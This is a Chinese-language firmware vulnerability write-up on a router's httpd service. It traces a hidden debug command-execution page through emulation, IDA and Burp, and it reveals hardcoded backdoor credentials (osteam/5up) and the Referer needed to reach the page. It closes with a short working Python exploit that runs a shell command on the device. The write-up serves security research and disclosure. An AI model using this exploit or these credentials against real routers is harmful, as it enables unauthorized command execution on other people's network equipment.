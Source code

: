 # 基础信息分析
先binwalk看一下基础信息
![[Pasted image 20240730134717.png]]
squashfs文件系统，大端序
再用firmwalker-pro-max查看它是个什么服务
![[Pasted image 20240730135517.png]]
知道是个httpd服务
# 漏洞分析
用FirmAE模拟起来
firmwalker看到cmd下面的，有个web端是个命令执行的地方，尝试访问一下
![[Pasted image 20240730180926.png]]
访问之前看到有参数，先打开这个文件看一下
![[Pasted image 20240730181302.png]]
妥妥的是个命令执行处，看一下源码
![[Pasted image 20240730181436.png]]
是需要构建url参数cmd=&usr=&passwd=且访问的是DebugResultRpm.htm，于是尝试构建
![[Pasted image 20240730191649.png]]
是个空白页，burp抓包看一下，确实返回了200，尝试在FrimAE的shell模式下看一下，aaa.htm是否存在
![[Pasted image 20240730192232.png]]
![[Pasted image 20240730191944.png]]
发现并没有执行命令，但又返回了200，很奇怪
看到返回提示了"User or Password not correct"，在IDA里面去查询一下
![[Pasted image 20240730192413.png]]
发现查询到，交叉引用去看一下有什么提示
![[Pasted image 20240730192511.png]]
发现它的账号密码对比的是osteam和5up且是写死的，并不是admin默认账号密码
再去尝试一下，把账号和密码改为osteam和5up
![[Pasted image 20240730192739.png]]
发现确实是账号和密码正确了，命令也进去了，看一下shell，发现还是没有写进去
针对上面在IDA里面找到的信息，看一下函数的交叉引用是在哪里调用的
![[Pasted image 20240730193855.png]]
是在这里用到的，看到这里的时候发现上面两行与我们分析的.htm文件名儿比较相似
出于礼貌先拿去在固件包中搜索一下，发现没有这两个文件
![[Pasted image 20240730195246.png]]
于是看着去访问一下能不能访问到
![[Pasted image 20240730194430.png]]
第一个只访问到了一句话
![[Pasted image 20240730194507.png]]
第二个不就是我们要找的命令执行的web端嘛，试一下命令执行，发现成功了
![[Pasted image 20240730195400.png]]
再想一下我们之前构造的url为什么没有成功，用burp抓包看了一下发现
![[Pasted image 20240730200244.png]]
请求头确实并无两样与我们构造的，但是referer的点不一样

这个漏洞怎么说呢，就只算是个后门吧

# exp
```
import requests

burp0_url = "http://192.168.1.1:80/userRpm/DebugResultRpm.htm?cmd=ls&usr=osteam&passwd=5up"
burp0_headers = {"Authorization": "Basic YWRtaW46YWRtaW4=", "Referer": "http://192.168.1.1/userRpmNatDebugRpm26525557/linux_cmdline.html"}
response = requests.get(burp0_url, headers=burp0_headers)

print(response.text)
```



# Tips
这里在ping分析了一段时间，最后发现ip会通过inet_addr()函数验证，所以未来遇到这个函数，可以适当退出，修复方案也可以提出。